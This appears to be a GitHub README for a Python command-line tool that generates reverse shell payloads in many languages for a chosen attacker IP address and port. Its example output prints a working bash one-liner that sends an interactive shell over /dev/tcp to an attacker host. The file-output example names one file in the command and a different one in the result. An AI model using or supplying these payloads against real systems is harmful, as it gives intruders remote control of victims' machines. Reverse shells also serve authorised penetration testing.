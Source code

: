 # ReverseShell
A Reverse Shell Generator from CLI.


## Usage:
                                                                                                                      
                                                                                                                                             
            ▄▄▄▄▄                                             ▄▄▄▄  █             ▀▀█    ▀▀█                                                 
            █   ▀█  ▄▄▄   ▄   ▄   ▄▄▄    ▄ ▄▄   ▄▄▄    ▄▄▄   █▀   ▀ █ ▄▄    ▄▄▄     █      █                                                 
            █▄▄▄▄▀ █▀  █  ▀▄ ▄▀  █▀  █   █▀  ▀ █   ▀  █▀  █  ▀█▄▄▄  █▀  █  █▀  █    █      █                                                 
            █   ▀▄ █▀▀▀▀   █▄█   █▀▀▀▀   █      ▀▀▀▄  █▀▀▀▀      ▀█ █   █  █▀▀▀▀    █      █                                                 
            █    ▀ ▀█▄▄▀    █    ▀█▄▄▀   █     ▀▄▄▄▀  ▀█▄▄▀  ▀▄▄▄█▀ █   █  ▀█▄▄▀    ▀▄▄    ▀▄▄                                               
                                         by @Masood2000                                                                       
                                                                                                                                             
                                                                                                                                      
```                                                                                                                                             
usage: revshell.py [-h] --address IP_ADDRESS --port PORT [--output OUT_FILE]
                   {bash,php,php_one_liner,php_windows,perl,perl_windows,python,python2_windows,powershell,powershell_nishang,netcat,netcat_windows,netcat_windows_ps,lua,ruby,golang,awk}
                   
positional arguments:
  {bash,php,php_one_liner,php_windows,perl,perl_windows,python,python2_windows,powershell,powershell_nishang,netcat,netcat_windows,netcat_windows_ps,lua,ruby,golang,awk}
                        The type of reverse shell you want to generate.
                        
options:
  -h, --help            show this help message and exit
  --address IP_ADDRESS, -i IP_ADDRESS
                        The Attacker's IP Address.
  --port PORT, -p PORT  The Attacker's Listening Port.
  --output OUT_FILE, -o OUT_FILE
                        The Output file name of the reverse shell. 
                    
     
```
## Usage from CLI:
### Not storing the output to a file
```bash
$ python3 revshell.py bash -i 192.168.100.1 -p 222
                                                                                                                                             
            ▄▄▄▄▄                                             ▄▄▄▄  █             ▀▀█    ▀▀█                                                 
            █   ▀█  ▄▄▄   ▄   ▄   ▄▄▄    ▄ ▄▄   ▄▄▄    ▄▄▄   █▀   ▀ █ ▄▄    ▄▄▄     █      █                                                 
            █▄▄▄▄▀ █▀  █  ▀▄ ▄▀  █▀  █   █▀  ▀ █   ▀  █▀  █  ▀█▄▄▄  █▀  █  █▀  █    █      █                                                 
            █   ▀▄ █▀▀▀▀   █▄█   █▀▀▀▀   █      ▀▀▀▄  █▀▀▀▀      ▀█ █   █  █▀▀▀▀    █      █                                                 
            █    ▀ ▀█▄▄▀    █    ▀█▄▄▀   █     ▀▄▄▄▀  ▀█▄▄▀  ▀▄▄▄█▀ █   █  ▀█▄▄▀    ▀▄▄    ▀▄▄                                               
                                          by @Masood2000                                                                              
                                                                                                                                             
                                                                                                                                             
                                                                                                                                             
[*] Shell is:
=========================
bash -i >& /dev/tcp/192.168.100.1/222 0>&1
=========================

```
### Storing the shell to a file:
```bash
$ python revshell.py bash -i 192.168.0.100 -p 9001 -o shell.sh
                                                                                                                                             
        ▄▄▄▄▄                                             ▄▄▄▄  █             ▀▀█    ▀▀█                                                 
        █   ▀█  ▄▄▄   ▄   ▄   ▄▄▄    ▄ ▄▄   ▄▄▄    ▄▄▄   █▀   ▀ █ ▄▄    ▄▄▄     █      █                                                 
        █▄▄▄▄▀ █▀  █  ▀▄ ▄▀  █▀  █   █▀  ▀ █   ▀  █▀  █  ▀█▄▄▄  █▀  █  █▀  █    █      █                                                 
        █   ▀▄ █▀▀▀▀   █▄█   █▀▀▀▀   █      ▀▀▀▄  █▀▀▀▀      ▀█ █   █  █▀▀▀▀    █      █                                                 
        █    ▀ ▀█▄▄▀    █    ▀█▄▄▀   █     ▀▄▄▄▀  ▀█▄▄▀  ▀▄▄▄█▀ █   █  ▀█▄▄▀    ▀▄▄    ▀▄▄                                               
                                       by @Masood2000                                                                              
                                                                                                                                             
                                                                                                                                                                                                                                                                                   
[+] Successfully Stored reverse shell to file r.sh.

```
